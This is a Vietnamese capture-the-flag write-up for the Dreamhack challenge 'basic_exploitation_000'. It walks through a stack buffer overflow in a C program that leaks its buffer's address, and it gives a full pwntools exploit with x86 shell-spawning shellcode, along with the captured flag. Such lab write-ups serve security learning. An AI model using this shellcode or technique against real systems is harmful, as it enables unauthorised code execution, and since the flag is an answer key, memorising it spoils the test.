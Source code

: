 **1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```

Chương trình định nghĩa một mảng buf với kích thước 0x80 (hoặc 128 byte) nhưng cho phép nhập 141 byte -> Có lỗi bof.

Sau đó, chương trình in địa chỉ của mảng buf bằng lệnh printf() nhưng trong đó có %p sẽ in ra địa chỉ của biến buf.

**2. Ý tưởng**

Có được địa chỉ của biến buf nên sẽ đưa shellcode vào buf. Tiếp tục chèn cho tràn đến ret rồi điều hướng quay lại địa chỉ biến buf.

**3. Khai thác**

Lấy được địa chỉ biến buf sau lần chạy

```
r.recvuntil(b'(')
leak_buf = r.recv(10).decode()
log.info("leak stack: " + leak_buf)
leak_buf = int(leak_buf, 16)
```

```
   0x080485f5 <+28>:    lea    eax,[ebp-0x80]
   0x080485f8 <+31>:    push   eax
   0x080485f9 <+32>:    push   0x80486a5
   0x080485fe <+37>:    call   0x8048460 <__isoc99_scanf@plt>
```

Ta thấy biến buf cách ebp 0x80 byte. Vậy từ biến buf đến ebp là 0x80 + 0x4

Tiếp theo sẽ ghi shellcode vào biến buf và ghi byte rác cho đủ 0x80 + 0x4 byte ở trên. Sau đó ghi địa chỉ biến buf hay là shellcode của mình có được ở trên.

```
payload = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"
payload = payload.ljust(0x80 + 0x4, b'a')
payload += p32(leak_buf)
```

Đặt breakpoint ở ret xem có trả về shellcode của mình không.

![shell.png](photo/shell.png)

Vậy chương trình đã return về shellcode của mình

Ta có script như sau:

```
from pwn import *

exe = ELF('basic_exploitation_000')
#r = process(exe.path)
r = remote('host2.dreamhack.games', 22570)

r.recvuntil(b'(')
leak_buf = r.recv(10).decode()
log.info("leak stack: " + leak_buf)
leak_buf = int(leak_buf, 16)

payload = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"
payload = payload.ljust(0x80 + 0x4, b'a')
payload += p32(leak_buf)
#input()
r.sendlineafter(b')\n', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

```Flag: DH{465dd453b2a25a26a847a93d3695676d}```
